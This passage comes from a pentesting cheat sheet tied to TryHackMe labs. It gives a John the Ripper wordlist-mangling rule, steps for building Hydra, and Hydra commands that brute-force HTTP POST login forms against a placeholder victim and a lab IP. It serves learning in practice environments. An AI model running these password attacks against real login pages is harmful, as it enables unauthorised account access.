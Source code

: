 #### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

This will create your list which you then can use with hydra, john or any other brute forcing tools

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
```

## Web

## Install Hydra

If the version on your machine isn't working well.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -l $USERNAME -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/auth/:username=^USER^&password=^PASS^:F=Incorrect username" -V

```

### Crack a simple web login

#### Examples

[hydra.md](../../walkthroughs/tryhackme/hydra.md "mention")[brute-it.md](../../walkthroughs/tryhackme/brute-it.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```

### **Crafting request for Hydra**

This example shows how to brute force a POST request. Check HackPark how to get the request from Burp.

#### Examples
